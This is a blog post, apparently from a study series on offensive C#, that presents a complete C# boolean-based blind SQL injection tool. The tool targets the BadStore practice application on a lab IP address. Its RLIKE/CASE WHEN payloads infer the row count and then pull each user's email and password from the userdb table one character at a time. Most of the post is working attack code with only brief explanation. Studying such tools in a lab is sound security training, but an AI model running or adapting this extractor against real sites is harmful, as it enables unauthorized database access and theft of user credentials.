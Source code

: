 ```yaml
---
title: Creating a Blind/Boolean based mutational fuzzer to dump the database.
date: 2021-06-12 11:45:47 +07:00
categories: greyhatcch2
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Creating a Blind/Boolean based mutational fuzzer to dump the database.
---
```


## This Program is a Boolean-Based Blind mutational fuzzer that will use true/false questions in order to glean information 1 byte at a time.

_This exploit is more complicated than the UNION based sql fuzzer and requires much more time to retrieve the data._

- We use the:
  > RLIKE function to match values with a regular expression which can be used like an 'if-else' statement for true/false queries.
  
  > Couple "CASE WHEN" statements in the RLIKE function for the 'if-else' functionality.
  
  > COUNT(\*) function to return an integer for the number of rows in a table.
  
  > MID() function returns a particular substring depending on the starting index and length to return.
  
  > ORD() function converts a given input into an integer equivalent for matching data.

- The "GetString()" method from the "Encoding.ASCII" class to convert the array of bytes returned into a human readable string.



### Code block:

```Csharp
using System;
using System.Net;
using System.Reflection;
using System.IO;
using System.Net.Sockets;
using System.Collections.Generic;
using System.Text;

namespace Boolean_Blind_Sql_Injection
{
    class Program
    {
        static void Main(string[] args)
        {
            // Asks server for length of no of rows in userdb table
            int countLength = 1;
            for (; ; countLength++)
            {
                string getCountLength = "fdsa' RLIKE (SELECT (CASE WHEN ((SELECT";
                getCountLength += " LENGTH(IFNULL(CAST(COUNT(*) AS CHAR), NULL)) FROM";
                getCountLength += " userdb)=" + countLength + ") THEN 0x28 ELSE 0x41 END))";
                getCountLength += " AND '";

                string response = MakeRequest(getCountLength);
                if (response.Contains("parentheses not balanced"))
                    break;
            }

            // Asks server for no of rows in userdb table
            List<byte> countBytes = new List<byte>();
            for (int i = 1; i <= countLength; i++)
            {
                for (int c = 48; c <= 58; c++)
                {
                    string getCount = "fdsa' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT";
                    getCount += " IFNULL(CAST(COUNT(*) AS CHAR), NULL) FROM userdb),";
                    getCount += i + ", 1))=" + c + ") THEN 0x28 ELSE 0x41 END)) AND '";
                    string response = MakeRequest(getCount);

                    if (response.Contains("parentheses not balanced"))
                    {
                        countBytes.Add((byte)c);
                        break;
                    }
                }
            }
            // Converts and prints no of rows
            int count = int.Parse(Encoding.ASCII.GetString(countBytes.ToArray()));
            Console.WriteLine("[+] No of rows in userdb: " + count);



            // Calling methods and printing values
            for (int row = 0; row < count; row++)
            {
                foreach (string column in new string[] { "email", "passwd" })
                {
                    Console.WriteLine("[!] Getting length of query value...");
                    int valLength = GetLength(row, column);
                    Console.WriteLine(valLength);

                    Console.WriteLine("[!] Getting value...");
                    string value = GetValue(row, column, valLength);
                    Console.WriteLine(value);
                }

            }

        }

        // Makes request and returns response
        private static string MakeRequest(string payload)
        {
            string url = "http://192.168.216.128/cgi-bin/badstore.cgi?action=search&searchquery=";
            HttpWebRequest request = (HttpWebRequest)WebRequest.Create(url + payload);

            string response = string.Empty;
            using (StreamReader reader = new StreamReader(request.GetResponse().GetResponseStream()))
                response = reader.ReadToEnd();

            return response;
        }

        
        // Ask server for actual length of the value
        private static int GetLength(int row, string column)
        {
            // Retrieves length
            int countLength = 0;
            for (; ; countLength++)
            {
                string getCountLength = "fdsa' RLIKE (SELECT (CASE WHEN ((SELECT";
                getCountLength += " LENGTH(IFNULL(CAST(CHAR_LENGTH(" + column + ") AS";
                getCountLength += " CHAR),NULL)) FROM userdb ORDER BY email LIMIT ";
                getCountLength += row + ",1)=" + countLength + ") THEN 0x28 ELSE 0x41 END)) AND";
                getCountLength += " 'TiT'='TiT";
                string response = MakeRequest(getCountLength);

                if (response.Contains("parentheses not balanced"))
                    break;
             }

            // Retrieve length actual val
            List<byte> countBytes = new List<byte>();
            for (int i = 0; i <= countLength; i++)
            {
                for (int c = 48; c <= 58; c++)
                {
                    // Changed it to a single string as it was easier to debug
                    string getLength = "fdsa' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(CHAR_LENGTH(" + column + ") AS CHAR),NULL) FROM userdb ORDER BY email LIMIT " + row + ",1)," + i + ",1))=" + c + ") THEN 0x28 ELSE 0x41 END)) AND 'TIT'='TIT";

                    string resp = MakeRequest(getLength);
                    if (resp.Contains("parentheses not balanced"))
                    {
                        countBytes.Add((byte)c);
                        break;
                    }                      
                }                    
            }
            if (countBytes.Count > 0)
                return int.Parse(Encoding.ASCII.GetString(countBytes.ToArray()));
            else
                return 0;  
        }

        // Ask server and retrieve a given value
        private static string GetValue(int row, string column, int length)
        {
            List<byte> valBytes = new List<byte>();
            for (int i = 0; i <= length; i++)
            {
                for (int c = 32; c <= 126; c++)
                {
                    string getChar = "fdsa' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(" + column + " AS CHAR),NULL) FROM userdb ORDER BY email LIMIT " + row + ",1)," + i + ",1))=" + c + ") THEN 0x28 ELSE 0x41 END)) AND 'TIT'='TIT";

                    string response = MakeRequest(getChar);
                    if (response.Contains("parentheses not balanced"))
                    {
                        valBytes.Add((byte)c);
                        break;
                    }
                }
            }
                return Encoding.ASCII.GetString(valBytes.ToArray());

        }
    }
}

```

### Output:

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/csharp/greyhatc/Ch2/Boolean_blind_sql_fuzzer/boolean_blind_sql_fuzzer.png)
